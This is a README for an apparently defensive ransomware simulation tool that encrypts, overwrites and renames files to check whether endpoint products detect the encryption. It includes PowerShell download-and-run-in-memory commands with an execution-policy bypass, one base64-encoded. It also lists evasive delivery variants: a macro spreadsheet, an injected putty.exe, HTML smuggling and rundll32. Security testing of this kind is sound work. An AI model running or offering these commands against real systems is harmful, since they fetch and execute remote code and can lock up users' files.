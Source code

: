 # Really can protect from ransomware encryption?

We see many anti-virus / next generation endpoints claim ransomware protection, which can just detect and stop invasion, but CANNOT AWARE the encryption process.

Even those vendors sell high ranking, expensive, feature rich, detail EDR, heuristic detection, AI, ML and granular control, customers still got Ransomware, most of PC and servers were locked.

[![Watch the video](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/mr.bean2.gif)](https://youtu.be/CQIq8GDtDG0)

Vendors usually advise you to turn on all block mode, make sure all computer have the endpoint software installed, keep computer patch up to date, review log regularly, follow up abnormal event, then MOST of invasion can be stopped.

How many companies in the world can make sure this?  Why can't it stop encryption after bypass invasion detection?

**Stop encryption is the last defense, which cannot be neglected.**

**Advanced penetration detection is important, but stop encryption is the last defense, which cannot be neglected.**


# Which brand can detect encryption operation?

That's why I developed this tool.  It is not to replicate found malware, not vendor test tool, no bias, no need to install, just do encrypt (in memory) - overwrite (original file) - rename (file extension), simulate the core operation of ransomware.

It is safe enough to run it on your working PC and server, let you see the fact in your environment.

I have helped people to test this after WannaCry outbreak.  Luckly, I found few brands can detect it, and one of them can stop ransomware encryption initiated from remote PC via file share and RDP as well.  I did see a real Ransomware incident, that endpoint really could stop encryption, no loss.

You can refer to the source code if you know programming or you can download the complied files.

Hope there is no more ransomware incident!  Please share this blog with friends if you found it is useful.


# This tool

This tool encrypts - overwrite - rename the files in the selected (local or network) folder and subfolder, you may create a temporary folder like C:\Encrypt-Delete-Test\, save this tool to there, then run it.  Be safe.

It tests if your endpoint can detect when encryption is happening (like base on the files change pattern), but NOT to test if your endpoint can prevent it from start.

It is great if you can share your test result with me for my record.


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/summary.png)


EncryptDelTestv4_1.jar
- runs on Windows and Mac OS
- requires at least Java 8, http://www.java.com
(usually java.exe or javaw.exe is a trusted software, it is more difficult for endpoint to detect)


EncryptDelTestv4.1.exe / NaughtyDelTestv4.1.exe + NaughtyDelTestv4.1.dll
- runs on Windows
- requires at least .NET Framework 4.0


EncryptDelTestv4.1.ps1
- runs on Windows
- requires PowerShell


Fileless
- (download and run in memory directly) 
- powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/EncryptDelTestv4.1.ps1.txt')"
- powershell.exe -exec Bypass -noexit -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AZQBkAGQAaQBlAGMAaAB1AC8ARQBuAGMAcgB5AHAAdAAtAEQAZQBsAGUAdABlAC0AVABlAHMAdAAvAG0AYQBpAG4ALwBFAG4AYwByAHkAcAB0AEQAZQBsAFQAZQBzAHQAdgA0AC4AMQAuAHAAcwAxAC4AdAB4AHQAJwApAA==


EncryptDelTestv4.1.dll
- rundll32.exe EncryptDelTestv4.1.dll,Encrypt
- rundll32.exe EncryptDelTestv4.1.dll,Decrypt


NaughtyDelTestv4.1.xls (may be blocked by anti-virus)
- hide in Word Document


putty_naughty.exe (may be blocked by anti-virus)
- inject command in putty.exe


EncryptDelTestv4.1.html
- HTML smuggling to encode and embedded payload


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/EncryptDelTestv4.1b.gif)



| EncryptDelTestv4_1.jar | EncryptDelTestv4.1.exe | EncryptDelTestv4.1.ps1 | 
|---------------|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen41.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen40.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|


# How it works

###### EncryptDelTestv4.1.ps1 (local drive)

| CANNOT detect | CAN detect |
|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen55.gif)|
| The tool encrypts all files, a red page is shown and all files are encrypted | The encryption operatoin is blocked, no red page is shown, few files are encrypted, but they are being restored |


#

###### EncryptDelTestv4.1.ps1 (remote attack)

| CAN detect |
|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen56.gif)|
![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/endpoint3.gif)
|The tool tries to encrypt files in network drive (N:\), the server the encryption operaton from remote, few files are encrypted, but they are being restored|




Archived https://github.com/eddiechu-zz/Encrypt-Delete-Test






#

ransomware test tool
ransomware simulation
ransomware simulator
ransomware assessment
eddie chu
eddiechu.android@gmail.com
anti-ransomware
antivirus test
anti-virus test
endpoint test
infosec
security
cyber security
cybersecurity
incident response
hacker
antimalware
anti-malware
encryption
encrypt-del-test
encrypt-delete-test
encryptdeltest
encrypt overwrite rename
tool
test tool
defense
testing
pentest
penetration test
blue team
red team

